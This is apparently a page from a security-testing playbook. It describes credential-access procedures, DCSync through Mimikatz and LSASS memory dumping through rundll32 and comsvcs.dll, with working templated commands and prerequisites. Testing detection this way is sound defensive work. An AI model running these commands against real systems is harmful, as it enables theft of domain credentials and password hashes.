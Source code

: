 - The maliciousness level of the binary should align with the intent of the test. For testing signature-based checks, use a known malicious tool, such as Mimikatz. For testing sandboxing or similar network security technologies, use an unknown yet still overtly malicious tool, such as one built around the current attack infrastructure. By default, start with the most malicious choice.

# Collection

# Credential Access

## DCSync - via Mimikatz

The DCSync attack mimics normal replication behavior between DCs, allowing for remote extraction of credentials

Uses Mimikatz's lsadump::dcsync command

### Prerequisites

- Command execution in the context of an account with Active Directory replication rights
- User accounts to target
- Mimikatz binary (https://github.com/gentilkiwi/mimikatz)

### Guidance

```
mimikatz> lsadump::dcsync /domain:{{ domain }} /user:{{ target_username }}
```

### Troubleshooting

If Mimikatz is giving an error of `ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x00002105 (8453)`, try the following:

```
cmd> klist purge
cmd> gpupdate /force
```

## LSASS dumping using comsvcs.dll - via rundll32.exe

Use `rundll32.exe` to call the `MiniDump` export from `comsvcs.dll`

### Prerequisites

- Administrator rights
- SeDebugPrivilege

### Guidance

```
shell> rundll32.exe c:\windows\system32\comsvcs.dll MiniDump {{ lsass_pid }} {{ outpath }} full
```

